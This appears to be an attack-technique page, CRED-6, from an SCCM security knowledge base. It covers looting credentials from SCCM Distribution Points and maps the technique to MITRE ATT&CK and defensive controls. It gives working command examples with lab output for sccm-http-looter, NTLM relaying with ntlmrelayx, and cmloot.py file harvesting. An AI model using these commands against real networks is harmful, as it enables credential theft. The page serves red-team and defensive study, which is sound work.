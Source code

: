 # CRED-6

## Description
Loot domain credentials, SSH keys, and more from SCCM Distribution Points (DP)

## MITRE ATT&CK TTPs
- [TA0006 - Credential Access](https://attack.mitre.org/tactics/TA0006)
- [T1078.002 - Valid Accounts: Domain Accounts](https://attack.mitre.org/techniques/T1078/002/)

## Requirements
One of the following:
- Network access to SCCM SMB service (445/TCP) on a DP
- Network access to SCCM HTTP service (80/TCP or 443/TCP) on a DP

AND Credentials are likely to be required **but not always**

## Summary
A distribution point (DPs) is a server role used by SCCM to host the various files used in software installs, patches, script deployments, etc. By default, these servers allow access via SMB (TCP/445) and HTTP/S (TCP/80 and/or TCP/443) and require some type of Windows authentication (i.e. NTLM).

IT professionals and software engineers have a tendency of hardcoding credentials in scripts, configuration files, software, etc.

Therefore, we can loot the SCCM DP and extract valid credentials as authenticated (and sometimes unauthenticated) attackers.

#### SMB
The `C:\SCCMContentLib` folder is shared via SMB as the `SCCMContentLib$` SMB share and is accessible to any member of the Domain Users or Domain Computers groups. The file structure of the `C:\SCCMContentLib` folder is explained [here](https://github.com/badsectorlabs/sccm-http-looter/blob/main/DEFCON32_RTV_How-Ludu-%20made-it-rain-creds-from-SCCM.pdf)

#### HTTP
The IIS web server hosted on the distribution point defines a virtual directory, `SMS_DP_SMSPKG$`, which maps to the `C:\SCCMContentLib` folder explained above. The web server will perform all the file structure processing for us, allowing to retrieve resources belonging to a package through HTTP (that are by default domain-authenticated with Kerberos/NTLM, as all interactions to fetch external resources from the distribution point).

URL format to list the subdirectories and files in a package: `http://<DP>/sms_dp_smspkg$/<PackageID>/`

Retrieving a file in a package: `http://<DP>/sms_dp_smspkg$/<PackageID>/<filename>`

## Impact
If anonymous authentication (no credentials required) is enabled, an attacker can dump the DP files and analyze its contents for valid credentials. NTLM relaying is still possible under proper conditions.

If authentication is required: An internal attacker can use existing credentials to authenticate to the SMB/HTTP services to loot the Distribution Points.

## Defensive IDs

- [PREVENT-10: Enforce the principle of least privilege for accounts](../../../defense-techniques/PREVENT/PREVENT-10/prevent-10_description.md)
- [PREVENT-20: Block unnecessary connections to site systems](../../../defense-techniques/PREVENT/PREVENT-20/prevent-20_description.md)

## Examples
#### HTTP DP Looting (Anonymous Authentication Enabled)
```bash
# Using Regular Method
┌──(.env)─(root㉿AR-kali)-[/opt/sccm-http-looter]
└─# ./sccm-http-looter -server 10.2.10.12
2024/08/15 22:47:57 INFO SCCM HTTP Looter by Bad Sector Labs (@badsectorlabs)
2024/08/15 22:47:57 INFO Getting Datalib listing from http://10.2.10.12:80/SMS_DP_SMSPKG$/Datalib...
2024/08/15 22:47:57 INFO Found 12 Directories in the Datalib
2024/08/15 22:47:57 INFO SCCM Looting complete!


# Using signature files to extract file names

┌──(.env)─(root㉿AR-kali)-[/opt/sccm-http-looter]
└─# ./sccm-http-looter -server 10.2.10.12 -use-signature-method
2024/08/15 22:48:02 INFO SCCM HTTP Looter by Bad Sector Labs (@badsectorlabs)
2024/08/15 22:48:02 INFO Getting Datalib listing from http://10.2.10.12:80/SMS_DP_SMSPKG$/Datalib...
2024/08/15 22:48:02 INFO SCCM Looting complete!
```

#### HTTP DP Looting (NTLMRelayx to HTTP endpoint)
Currently, you can use the following version of [impacket](https://github.com/ar0dd/impacket). There is a pending [Pull Request](https://github.com/fortra/impacket/pull/1790) (as of 14 August, 2024) to include this into the main `impacket` repository.

Just run your server and wait for authentication to take place.

```bash
└─# python3 examples/ntlmrelayx.py -t http://10.2.10.12/SMS_DP_SMSPKG$/Datalib --sccm --sccm-dp-dump -smb2support
Impacket v0.12.0.dev1+20240801.104651.6d8dd858 - Copyright 2023 Fortra

[*] Protocol Client SMB loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client DCSYNC loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
[*] SMBD-Thread-5 (process_request_thread): Received connection from 10.2.10.13, attacking target http://10.2.10.12
[*] HTTP server returned error code 200, treating as a successful login
[*] Authenticating against http://10.2.10.12 as LUDUS/SCCM-SQL$ SUCCEED
[*] Dumping SCCM Distribution Point Files
[*] Getting Datalib listing...
[*] Getting Datalib listing from http://10.2.10.12/SMS_DP_SMSPKG$/Datalib...
[*] Data saved to 10.2.10.12_sccm_dump/Datalib.txt
[*] Extracting file names from Datalib listing...
[*] Getting file signatures...
[*] All targets processed!
[*] SMBD-Thread-7 (process_request_thread): Connection from 10.2.10.13 controlled, but there are no more targets left!
[*] SCCM DP Looting complete!
```

#### SMB DP Looting (With Domain Credentials)
```bash
# Create a loot inventory for a specific Distribution Point (DP)
┌──(root㉿AR-kali)-[/opt/cmloot]
└─# python3 cmloot.py ludus.domain/domainuser@10.2.10.12 -cmlootinventory sccmfiles.txt
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

Password:
[+] Access to SCCMContentLib on 10.2.10.12
[+] sccmfiles.txt created

# Review + then download the sccmfiles contents
┌──(root㉿AR-kali)-[/opt/cmloot]
└─# python3 cmloot.py ludus.domain/domainuser@10.2.10.12 -cmlootdownload sccmfiles.txt
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

Password:
[+] sccmfiles.txt exists. Remove it if you want to recreate the inventory.
[+] Extensions to download ['XML', 'INI', 'CONFIG', 'PS1', 'VBS']
[+] Already downloaded F906-ep_defaultpolicy.xml
[+] Already downloaded 7CEE-configure-baseline.ps1

# Analyze your loot
┌──(root㉿AR-kali)-[/opt/cmloot]
└─# ls CMLootOut
7CEE-configure-baseline.ps1  F906-ep_defaultpolicy.xml
```

## References
- Tomas Rzepka, [Looting Microsoft Configuration Manager](https://rzec.se/blog/looting-microsoft-configuration-manager/)
- Tomas Rzepka, [CMLoot](https://github.com/1njected/CMLoot)
- Erik Hunstad, [sccm-http-looter](https://github.com/badsectorlabs/sccm-http-looter)
- Alberto Rodriguez, [ntlmrelayx](https://github.com/fortra/impacket/pull/1790)
- Quentin Roland, [sccmsecrets.py](https://www.synacktiv.com/publications/sccmsecretspy-exploiting-sccm-policies-distribution-for-credentials-harvesting-initial)
- Shelltrail [CMLoot.py](https://github.com/shelltrail/cmloot) & this [blog](https://www.shelltrail.com/research/cmloot/)
